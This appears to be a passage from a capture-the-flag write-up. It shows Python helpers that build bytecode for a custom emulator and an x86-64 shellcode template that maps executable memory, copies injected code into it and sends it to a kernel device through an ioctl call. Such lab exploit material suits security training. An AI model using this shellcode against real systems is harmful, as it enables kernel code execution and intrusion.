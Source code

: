 ```python
    buffer = b''
    if type(fd) == int:
        buffer += write_register(Regs.a, value=fd)
    buffer += write_register(Regs.b, value=offset)
    buffer += write_register(Regs.c, value=count)
    buffer += syscall(Syscalls.READ_MEM, out_reg=Regs.a)
    return buffer

def write_from_memory(fd, offset, count):
    buffer = b''
    if type(fd) == int:
        buffer += write_register(Regs.a, value=fd)
    buffer += write_register(Regs.b, value=offset)
    buffer += write_register(Regs.c, value=count)
    buffer += syscall(Syscalls.WRITE_MEM, out_reg=Regs.a)
    return buffer

def store_string(addr, string):
    assert(type(string) == bytes)
    buffer = b''
    for i, b in enumerate(string):
        buffer += write_register(Regs.a, b)
        buffer += write_register(Regs.b, addr + i)
        buffer += store_in_memory(addr=Regs.b, register=Regs.a)
    return buffer

SHELLCODE = '''
user_shellcode:
mov rdi, 0
mov rsi, 0x1000
mov rdx, 3
mov r10, 1
mov r8, 3
mov r9, 0
mov rax, 9
syscall

lea rbx, [rip + yancode_start]
mov rcx, 0

copy_loop:
mov dl, byte ptr[rbx + rcx]
mov byte ptr[rax + rcx], dl
inc rcx
cmp rcx, yancode_end - yancode_start
je done
jmp copy_loop

done:
mov rdi, 3
mov rsi, 1337
mov rax, 16
syscall

yancode_start:
{}

yancode_end:
nop
'''

def main():    
    debug = False
```

[linux-kernel-labs-vma]: https://linux-kernel-labs.github.io/refs/pull/222/merge/labs/memory_mapping.html
[litux-vma]: https://litux.nl/mirror/kerneldevelopment/0672327201/ch14lev1sec2.html